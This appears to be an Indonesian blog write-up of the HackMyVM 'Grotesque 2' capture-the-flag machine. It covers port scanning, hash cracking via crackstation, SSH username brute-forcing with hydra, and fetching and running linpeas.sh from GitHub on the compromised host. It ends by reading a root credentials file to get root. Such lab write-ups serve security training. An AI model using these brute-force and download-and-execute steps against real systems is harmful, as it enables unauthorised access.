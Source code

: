 ```yaml
---
layout: Post
title: HackMyVM - Grotesque2 Writeup
date: 2021-10-20 10.28 WIB  
---
```

<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://downloads.hackmyvm.eu/grotesque2.zip">Grotesque 2</a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://twitter.com/x6cx61x63x61x73">cromiphi</a></h4>

## NMAP

Oke seperti biasa pertama yang kita lakukan ialah scan port yang ada di dalam vm tersebut dengan `nmap` :

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7935]
└─[$] nmap -A 192.168.0.199                                                                                                 [23:22:27]
Starting Nmap 7.70 ( https://nmap.org ) at 2021-10-19 23:23 EDT
Stats: 0:04:10 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.97% done; ETC: 23:27 (0:00:00 remaining)
Nmap scan report for 192.168.0.199
Host is up (0.00069s latency).

```
Disini sangat aneh karena port http yang terbuka mulai dari 33-555 jadi saya coba mengecek nya menggunakan script

## HTTP
Oke disini saya mengecek http dengan semua port dari 33-555 menggunakan script bash

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7950]
└─[$] for i in {23..600};do wget 192.168.0.199:$i -O index$i; done
```1

setelah itu saya cek menggunakan command sort untuk mengurutkan file dari yang terkecil sampai terbesar penyimpananya

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2/index] - [7951]
└─[$] ls -la | sort                                                                                                         [23:35:53]
drwxr-xr-x 2 root root 20480 Oct 19 23:35 .
drwxr-xr-x 3 root root 20480 Oct 19 23:29 ..
-rw-r--r-- 1 root root     0 Oct 19 23:35 index23
-rw-r--r-- 1 root root     0 Oct 19 23:35 index24
-rw-r--r-- 1 root root     0 Oct 19 23:35 index25
-rw-r--r-- 1 root root     0 Oct 19 23:35 index26
-rw-r--r-- 1 root root     0 Oct 19 23:35 index27
...
-rw-r--r-- 1 root root   412 Oct 19 23:35 index96
-rw-r--r-- 1 root root   412 Oct 19 23:35 index97
-rw-r--r-- 1 root root   412 Oct 19 23:35 index98
-rw-r--r-- 1 root root   412 Oct 19 23:35 index99
-rw-r--r-- 1 root root   762 Oct 19 23:35 index258
total 2144
```
dan ternyata port ke 258 memiliki penyimpanan yang lebih banyak jadi saya cek ke web menggunakan port 258.

![](images/grotesque/1.png)

# SSH

Oke disini kita dapat list username. sedangkan password nya ada di gambar Ibu Jari dan dikurangi dengan 100

![](images/grotesque/2.png)

```console
b6e705ea1249e2bb7b0fd7dac9fcd1b3
                             100
b6e705ea1249e2bb7b0fd7dac9fcd0b3 => ini adalah password ssh nya
```

selanjutnya kita crack passsword ssh nya menggunakan crack online yaitu crackstation

![](images/grotesque/crackstation.png)

Karena kita sudah mendapatkan password ssh nya selanjutnya kita mencari username dari ssh nya menggunakan hydra

```console
┌─[root@kina] - [~/Downloads/CTF/HackMyVm/Grotesque/2] - [7963]
└─[$] hydra -L user.list -p solomon1 192.168.0.199 ssh                                                                      [23:46:39]
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-19 23:46:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
[DATA] attacking ssh://192.168.0.199:22/
[22][ssh] host: 192.168.0.199   login: ang**   password: solo****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-10-19 23:46:55
```

lalu kita ssh menggunakan user dan password tadi dan didapatkan user.txt. selanjutnya kita harus mendapatkan hak akses root. saya  menggunakan linpeas untuk mengetahui kerentanannya

```console
angel@grotesque:~$ wget https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
--2021-10-19 22:49:49--  https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh [following]
--2021-10-19 22:49:50--  https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.110.133, 185.199.111.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 477235 (466K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[============================================================>] 466.05K   673KB/s    in 0.7s    

2021-10-19 22:49:51 (673 KB/s) - ‘linpeas.sh’ saved [477235/477235]

angel@grotesque:~$ chmod +x linpeas.sh 
angel@grotesque:~$ ./linpeas.sh 
```
dan ditemukan 
```console

══════════╣ Unexpected in root
/vmlinuz.old
/rootcreds.txt
/initrd.img
/initrd.img.old
/vmlinuz
```
dan kita cat 
```console
angel@grotesque:~$ cat /rootcreds.txt 
root creds

root
sweet*****
root creds
```
ditemukan password root. kita su root dan dapat hak akses root dan juga flag root
